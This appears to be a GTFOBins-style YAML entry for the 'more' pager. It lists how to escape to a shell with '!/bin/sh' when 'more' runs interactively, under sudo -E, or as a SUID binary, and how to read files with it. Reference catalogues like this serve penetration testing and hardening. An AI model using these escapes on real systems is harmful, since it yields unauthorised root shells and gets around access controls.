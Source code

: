 ```yaml
---
functions:
  execute-interactive:
    - code: |
        TERM= more /etc/profile
        !/bin/sh
  sudo-enabled:
    - code: |
        TERM= sudo -E more /etc/profile
        !/bin/sh
  suid-limited:
    - code: |-
        TERM= ./more /etc/profile
        !/bin/sh
  file-read:
    - code: |
        more file_to_read
---
```

